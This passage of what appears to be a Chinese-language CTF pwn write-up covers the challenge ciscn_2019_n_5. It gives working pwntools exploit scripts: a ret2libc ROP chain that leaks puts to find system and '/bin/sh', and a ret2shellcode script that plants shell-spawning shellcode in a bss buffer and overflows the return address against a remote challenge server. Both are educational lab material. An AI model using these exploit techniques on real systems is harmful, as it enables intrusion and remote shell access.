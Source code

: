```python

puts_addr =  u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)
offset = puts_addr - libc.dump('puts')
system = offset + libc.dump('system')
binsh = offset + libc.dump('str_bin_sh')

p.recvline()
p.sendline(b'aaaa')
p.recvline()

payload = b'a' * 40 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.sendlineafter(b"What do you want to say to me?\n", payload)
p.interactive()
```



**ret2shellcode**

![](/img/ctf-pwn/ciscn_2019_n_5/4.jpg)

由于题目给了bss段上100个字节的空间，可以用来写shellcode

需要在注意的包括context.arch设置平台环境

而且特意看了一下 `len(shellcode) `是 48 < 100字节

```python
from pwn import *
from LibcSearcher import *

#p = process("./ciscn_2019_n_5")
p = remote('node4.buuoj.cn',27829)

context.arch = 'amd64'
context.log_level = 'debug'
shellcode = asm(shellcraft.sh())
name_addr = 0x0601080
p.sendlineafter("tell me your name\n",shellcode)
payload = b'a' * (0x20 + 0x8) + p64(name_addr)
p.sendlineafter(b"What do you want to say to me?\n",payload)
p.interactive()
```

### 题目7
